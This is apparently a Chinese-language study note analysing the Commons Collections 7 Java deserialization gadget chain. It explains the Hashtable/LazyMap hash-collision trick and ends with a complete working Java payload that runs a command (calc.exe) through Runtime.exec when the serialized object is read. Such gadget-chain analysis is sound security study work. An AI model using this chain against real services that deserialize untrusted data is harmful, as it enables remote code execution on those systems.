




# CommonsCollections7

## 写在前面

由于是第一次跟踪CC7所以这一条写详细一点

## 利用链跟踪简单分析

这条链子是利用HashTable，我们来看看readObject方法

这里的key与value就是我们自己存进去的，继续跟进`reconstitutionPut`方法


可以看到如果这里hash与之前某个存入的相等那就会调用其`equals`方法，这里看了网上`payload`是让这个`e.key`为一个`Lazymap`对象，可以看到`LazyMap`本身没有equals方法


this.map为传入的HashMap



之后就可以通过调用Lazymap的get触发整个命令执行的流程

### hash相等的构造

我们知道整个流程当中很重要的一环就是要让hash值相等

我们来看看这个hashcode的计算方法，key与value的分别计算并异或，值我们可以设置的相同，但是如何让key的hashcode也一致



是对String的hashcode


看到这里就很明确了，首先y比z小1，经过第一轮循环后h的差值就差31，所以我们可以控制第二个字符是y与Z，前面比后面大31刚好抵消了这个差距



### 为什么下面的payload当中有一个lazyMap2.remove("yy");

这里m.size是1，size若没这个过程则是2就不相等了


## 完整payload

```Java
package bcell;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7 {
    public static void main(String[] args) throws IllegalAccessException, NoSuchFieldException, IOException, ClassNotFoundException {

        Transformer[] fakeTransformers = new Transformer[] {};

        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);


        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        lazyMap2.remove("yy");
        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc7.bin"));
            outputStream.writeObject(hashtable);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc7.bin"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

